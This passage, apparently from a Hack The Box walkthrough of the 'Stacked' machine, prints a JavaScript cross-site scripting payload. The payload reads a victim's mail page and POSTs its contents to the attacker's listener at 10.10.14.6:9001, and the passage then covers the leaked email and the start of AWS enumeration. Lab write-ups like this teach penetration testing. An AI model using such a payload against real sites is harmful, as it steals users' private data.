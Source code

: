 
After a minute, I have another page that shows my email as well as one more
from “Jeremy Taint”:

![image-20210824120713361](https://0xdfimages.gitlab.io/img/image-20210824120713361.png)

The link on the first one is `/read-mail.php?id=1`, and the subject line is
interesting.

### Read Mail

The same payload as above, but with a different initial URL:

    
    
    var mail1req = new XMLHttpRequest();    
    mail1req.onreadystatechange = function() {    
      if (mail1req.readyState == 4) {    
        var exfilreq = new XMLHttpRequest();    
        exfilreq.open("POST", "http://10.10.14.6:9001/", false);    
        exfilreq.send(mail1req.response);    
      }    
    };    
    mail1req.open('GET', '/read-mail.php?id=1', false);    
    mail1req.send();    
    

In the resulting page, there’s a message:

    
    
    ...[snip]...
    <div class="mailbox-read-message">
        <p>Hey Adam, I have set up S3 instance on s3-testing.stacked.htb so that you can configure the IAM users, roles and permissions. I have initialized a serverless instance for you to work from but keep in mind for the time being you can only run node instances. If you need anything let me know. Thanks.</p>
    </div>                             
    <!-- /.mailbox-read-message -->  
    ...[snip]...
    

I’ll add s3-testing.stacked.htb to `/etc/hosts`. There is a service running
there:

    
    
    oxdf@hacky$ curl http://s3-testing.stacked.htb/
    {"status": "running"}
    

## Shell as localstack on localstack

### AWS Enumeration

#### Install / Configure

I’ll need the AWScli (`apt install awscli`), and just like in
[Bucket](/2021/04/24/htb-bucket.html#upload-to-bucket), I’ll need to configure
it first:
